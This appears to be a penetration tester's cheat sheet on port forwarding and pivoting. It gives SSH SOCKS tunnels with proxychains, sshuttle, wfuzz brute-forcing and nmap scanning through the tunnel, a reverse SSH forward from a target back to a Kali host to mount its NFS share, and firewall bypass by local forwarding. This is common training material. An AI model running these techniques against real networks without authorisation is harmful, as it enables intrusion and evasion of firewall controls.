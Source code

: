 # Port Forwarding Techniques

### Guides

Tunneling and Pivoting Techniques (GIAC): https://www.giac.org/paper/gwapt/4686/tunneling-pivoting-web-application-penetration-testing/120229

### Dynamic Port Forwarding

This will allow you to access internal network services on dynamic (as opposed to static) ports.

Proxychains
1. Ensure `/etc/proxychains4.conf` is setup with the preferred port (deafult is `9050`).
2. Establish SSH tunnel with proxy server `$ kali> sudo ssh -N -D 127.0.0.1:9050 username@proxy_server/jump_box`
3. Run commands `$ proxychains curl http://[internal_target]`

Sshuttle
```
$ sshuttle user@[proxy_server] [internal_cidr]
$ sshuttle hello@10.11.1.251 10.1.1.0/24
```

Directory brute-force example
* Wfuzz works well, Gobuster requires some setup.
```
$ wfuzz -p 127.0.0.1:9050:SOCKS4 -c -w [/path/to/wordlist] --hc=404 http://[internal_target]/FUZ
```

Nmap scanning via. Proxychains example
```
$ proxychains nmap -Pn -sT -sV [target]
```

### Remote Port Forwarding

SSH remote port forwarding is for opening a connection from within the target -> Kali.
* Can bypass inbound firewall restrictions to SSH (as outbound connection is used).
* Can be used to access a target's localhost services from Kali (see NFS below)
```
# Mount a target's localhost NFS share
$ target> ssh -N -R [kali]:2049:127.0.0.1:2049 kali@[kali_ip]
$ kali> mount -t nfs 127.0.0.1:/ /mnt -o nolock
```

### SSH Port Forwarding to Bypass Firewalls

```
$ ssh -L [local_port]:[target/jumpbox]:[blocked_port] [user]@[target]

# example - bypass blocked port 80 HTTP
$ ssh -L 80:192.168.218.99 bob@192.168.218.99
```

